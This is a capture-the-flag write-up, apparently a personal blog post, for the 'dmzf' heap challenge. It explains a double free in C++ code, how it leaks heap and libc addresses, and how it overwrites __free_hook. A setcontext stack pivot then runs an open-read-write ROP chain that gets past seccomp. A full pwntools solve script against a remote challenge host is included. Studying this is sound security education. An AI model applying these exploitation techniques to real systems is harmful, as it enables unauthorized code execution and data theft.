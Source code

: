 ```yaml
---
title: dmzf
---
```


The week before early admission deadline, perfect time to do a CTF and burn a weekend. 

## Analysis

Libc version is 2.27, we get tcache without the security checks. 

As usual, the first thing we do is run `checksec`. 

```
[+] checksec for '/home/robert/writeups/binexp/meta20/dmzf/dmzf'
Canary                        : ✓
NX                            : ✓
PIE                           : ✓
Fortify                       : ✘
RelRO                         : Full
```

Canary, NX, PIE, Full RelRO - it's a typical heap exploit challenge. The exploit path will probably involve getting a libc leak, and then overwriting one of the hooks - `__malloc_hook` or `__free_hook`. 

There's also seccomp which makes exploitation a bit more tricky. 

<!--more-->

```
$ seccomp-tools dump ./dmzf
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0a 0xc000003e  if (A != ARCH_X86_64) goto 0012
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x07 0xffffffff  if (A != 0xffffffff) goto 0012
 0005: 0x15 0x05 0x00 0x00000000  if (A == read) goto 0011
 0006: 0x15 0x04 0x00 0x00000001  if (A == write) goto 0011
 0007: 0x15 0x03 0x00 0x00000002  if (A == open) goto 0011
 0008: 0x15 0x02 0x00 0x00000025  if (A == alarm) goto 0011
 0009: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0011
 0010: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 ```

 Luckily, the open-read-write syscalls are allowed. We'll probably need to pivot with setcontext to get a ROP chain. 


### Vulnerabilities

The key vulnerability was a double free. Luckily we were given source, making this a lot easier to reverse. 

```c++
void del_rule(string &cmd) {
	try {
		int idx = stoi(string(cmd, 4));
		if(idx < 0 || idx >= rules.size() || rules[idx] == nullptr) {
			cout << "ERROR: Invalid ID!" << endl;
			return;
		}
		delete rules[idx];
		cout << "Rule " << idx << " deleted." << endl;
	}
```

From here, this is a pretty standard 2.27 glibc heap challenge. The only difficult part is C++ heap messiness. For example, strings in c++ allocate an additional (variable?) size buffer. In order to get around this, you could free three chunks and then allocate another one which would put the string data buffer into the original string buffer. Then UAF to get a leak. 

```python
free(0) # arbitrary size, just bigger than string buffer
free(1)
free(2)

show(2)

p.recvuntil("2: ")
leak = u64(p.recv(8)) # get heap leak
print(hex(leak))

alloc((p64(leak + 0x950) + p64(0x20)).ljust(0x27, "B"))

show(1) # get libc leak
```

After getting a leak, a similar technique can be used to get an arbitrary write. From here, we have to deal with seccomp. 

Overwriting `setcontext+53` lets us use a powerful gadget, `mov    rsp,QWORD PTR [rdi+0xa0]`. Note that on some (later?) glibc versions this gadget isn't as powerful (`$rdi` is replaced with `$rdx`), where we'll have to use FSOP. 

`$rdi` is attacker controlled, being the argument to free if we overwrite free hook. Since it loads `$rsp` from an attacker controlled value, and we control the later bytes as well, we are able to set whatever we want into `[rdi+0xa0]` controlling `$rsp`. 

One small additional note, this gadget is a bit messy because it includes a `push rcx` instruction. 

```
   0x7fc490da0145 <setcontext+53>:      mov    rsp,QWORD PTR [rdi+0xa0]
   0x7fc490da014c <setcontext+60>:      mov    rbx,QWORD PTR [rdi+0x80]
   0x7fc490da0153 <setcontext+67>:      mov    rbp,QWORD PTR [rdi+0x78]
   0x7fc490da0157 <setcontext+71>:      mov    r12,QWORD PTR [rdi+0x48]
   0x7fc490da015b <setcontext+75>:      mov    r13,QWORD PTR [rdi+0x50]
   0x7fc490da015f <setcontext+79>:      mov    r14,QWORD PTR [rdi+0x58]
   0x7fc490da0163 <setcontext+83>:      mov    r15,QWORD PTR [rdi+0x60]
   0x7fc490da0167 <setcontext+87>:      mov    rcx,QWORD PTR [rdi+0xa8]
   0x7fc490da016e <setcontext+94>:      push   rcx
   0x7fc490da016f <setcontext+95>:      mov    rsi,QWORD PTR [rdi+0x70]
   0x7fc490da0173 <setcontext+99>:      mov    rdx,QWORD PTR [rdi+0x88]
   0x7fc490da017a <setcontext+106>:     mov    rcx,QWORD PTR [rdi+0x98]
   0x7fc490da0181 <setcontext+113>:     mov    r8,QWORD PTR [rdi+0x28]
   0x7fc490da0185 <setcontext+117>:     mov    r9,QWORD PTR [rdi+0x30]
   0x7fc490da0189 <setcontext+121>:     mov    rdi,QWORD PTR [rdi+0x68]
   0x7fc490da018d <setcontext+125>:     xor    eax,eax
   0x7fc490da018f <setcontext+127>:     ret
```

Luckily, `$rcx` is loaded from `$rdi+0xa8` which is also attacker controlled. We simply "ret to ret", or more verbosely return to a "ret" gadget, and then we're back on our fake stack. 

Due to string destructor, we don't even have to manually free the object. Allocating a string is enough to pwn after we overwrite `__free_hook`. 

```python
alloc((
  p64(lleak + libc.symbols["setcontext"] + 53)
  + "C" * 0x94 # "4" because of len("add ")
  + p64(leak + 0x562127af0fd0 - 0x562127af0370) # rsp
  + p64(prdi + 1) # prdi + 1 => ret
).ljust(0x300, "A"))
```

My full solve script can be found below, or as on [GitHub](https://github.com/chen-robert/writeups/blob/master/binexp/meta20/dmzf/solve.py). 

```python
  
from pwn import *

e = ELF("./dmzf")
libc = ELF("./libc.so.6")

context.binary = e.path

is_remote = "--remote" in sys.argv
def debug():
  if not is_remote:
    gdb.attach(p, "x/10gx  &_Z5rulesB5cxx11")

if is_remote:
  p = remote("host1.metaproblems.com", 5810)
else:
  p = process(e.path, env={"LD_PRELOAD": libc.path + " ./libcstdc++.so ./libseccomp.so.2.4.3"})

def alloc(s):
  p.sendlineafter("> ", "add " + s)

def free(idx):
  p.sendlineafter("> ", "del " + str(idx))

def show(idx):
  p.sendlineafter("> ", "view " + str(idx))

alloc("A" * 0x37)
alloc("A" * 0x37)
alloc("A" * 0x37)
alloc("A" * 0x410)
alloc("A" * 0x410)

free(3)

free(0)
free(1)
free(2)

show(2)

p.recvuntil("2: ")
leak = u64(p.recv(8))
print(hex(leak))

alloc((p64(leak + 0x950) + p64(0x20)).ljust(0x27, "B"))

show(1)

p.recvuntil("1: ")
lleak = u64(p.recv(8)) - 0x7f925eca0270 + 0x00007f925e8b4000 
print(hex(lleak))

alloc("A" * 0x300)
alloc("A" * 0x300)

free(6)
free(7)

alloc((p64(leak +  0x000056306d4c7fd0 - 0x56306d4c7370) + p64(0x20)).ljust(0x27, "B"))

free(6)



alloc((
  p64(lleak + libc.symbols["__free_hook"])
).ljust(0x300))
debug()

prdi = 0x000275e7 + lleak
prsi =  0x0016317c + lleak
prax =  0x00043b68 + lleak
prdx = 0x00001b9e + lleak
sys = 0x001402a7 + lleak
alloc((
(
  p64(prax) + p64(2)
+ p64(prdi) + p64(leak + 0x562127af0fd0 - 0x562127af0370 + 0x200)
+ p64(prsi) + p64(0)
+ p64(prdx) + p64(0)
+ p64(sys)

+ p64(prax) + p64(0)
+ p64(prdi) + p64(3)
+ p64(prsi) + p64(leak)
+ p64(prdx) + p64(0x100)
+ p64(sys)

+ p64(prax) + p64(1)
+ p64(prdi) + p64(1)
+ p64(prsi) + p64(leak)
+ p64(prdx) + p64(0x100)
+ p64(sys)
+ p64(0x1336)
).ljust(0x200, "A")
+ "/dmzf/flag.txt\x00"
).ljust(0x300, "a"))

alloc((
  p64(lleak + libc.symbols["setcontext"] + 53)
  + "C" * 0x94 + p64(leak + 0x562127af0fd0 - 0x562127af0370) + p64(prdi + 1)
).ljust(0x300, "A"))



p.interactive()
```
